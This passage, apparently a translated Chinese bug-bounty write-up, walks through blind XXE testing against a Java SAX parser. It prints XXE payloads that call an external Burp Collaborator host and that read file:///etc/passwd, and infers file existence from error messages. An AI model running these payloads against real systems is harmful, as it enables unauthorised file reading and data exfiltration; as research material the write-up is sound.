 ```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "http://59c99fu65h6mqfmhf5agv1aptgz6nv.burpcollaborator.net/x"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The server was not able to produce a timely response to your request.
```

我仔细观察Burp Collabourator的交互，并期待着传入的HTTP请求，但只得到了以下的内容。

[![](https://p1.ssl.qhimg.com/t0182f2adff82f08333.png)](https://p1.ssl.qhimg.com/t0182f2adff82f08333.png)

看上去，服务器解析了我的域名，但预期的HTTP请求并不存在。此外，服务器在几秒钟后出现了500超时错误。

这种情况的发生，似乎是因为部署了防火墙。我继续尝试通过其他的端口传出HTTP请求，但无济于事。我试过的所有端口都出现了超时的错误，这表明受漏洞影响的服务器可以依靠防火墙来阻止所有意外发出的流量。在这里，要给安全团队点赞。



## 继续摸着石头过河

到目前，我有一个有趣的发现，但没有任何成果。通过尝试访问本地文件、内部网络位置以及服务，我希望能够收获到一些中危的漏洞。

为了证明这种影响，我对漏洞进行了证明，并成功确认了这些文件的存在。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "file:///etc/passwd"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```

响应：

```
The markup declarations contained or pointed to by the document type declaration must be well-formed.
```

这表示，该文件存在，并且可以由XML解析器打开和读取，但该文件的内容并非有效的文档类型定义（DTD），因此解析器解析失败，并产生错误。

换而言之，在这里并没有禁用外部实体的加载，但我们没有得到任何输出。在这个阶段，这似乎是一个XXE盲注的问题。

此外，我们可以假设正在运行的解析器是JAVA的SAX Parser，因为这段错误字符串似乎与Java错误类org.xml.sax.SAXParseExceptionpublicId相关。这非常有趣，因为Java在涉及到XXE漏洞时有许多独特之处，我们稍后会进行分析。

在尝试访问不存在的文件时，其响应有所不同。

请求：

```
&lt;?xml version="1.0" ?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % ext SYSTEM "file:///etc/passwdxxx"&gt; %ext;
]&gt;
&lt;r&gt;&lt;/r&gt;
```
